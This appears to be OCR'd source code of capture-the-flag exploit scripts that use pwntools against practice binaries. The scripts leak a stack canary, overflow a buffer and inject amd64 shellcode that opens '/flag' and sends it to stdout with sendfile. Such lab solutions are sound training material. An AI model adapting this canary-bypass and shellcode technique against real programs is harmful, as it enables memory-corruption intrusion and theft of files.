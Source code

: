overflow_size=0x40
p.sendlineafter("Payload size: ",str(overflow_size))

shell1='''
push 0x616c662f
mov BYTE PTR [rsp+4],0x67
mov eax,2
push rsp
pop rdi
xor esi,esi
syscall
'''

payload=b'\x90\x00'

payload+=asm(shell1,arch='amd64')
print(len(payload))
payload+=b'\xeb\x6d'+b'\x90'*(0x28-25)+p64(cc)+p64(0)+p64(stack_addr)

p.sendlineafter("bytes)!\n",payload)

p.interactive()

level 4.0
from pwn import *

p=process(['/challenge/toddlerone_level4.0'])

shell_code='''
push 0x616c662f
mov BYTE PTR [rsp+4],0x67
mov eax,2
push rsp
pop rdi
xor esi,esi
syscall

mov edi,1
push rax
pop rsi
xor edx,edx
mov r10,1000
push 40
pop rax
syscall
'''
overflow_size=0x39
p.sendlineafter("Payload size: ",str(overflow_size))

payload=b'\x90'*(0x30-6)+b'REPEAT'+p64(0x76b4c39e66cc1aad)
p.sendlineafter("bytes)!\n",payload)

p.recvuntil("You said: ")

p.recvuntil("\n",drop=1)
recv_data=p.recv(7)
can=b'\x00'+recv_data
cc=u64(can)
print(hex(cc))

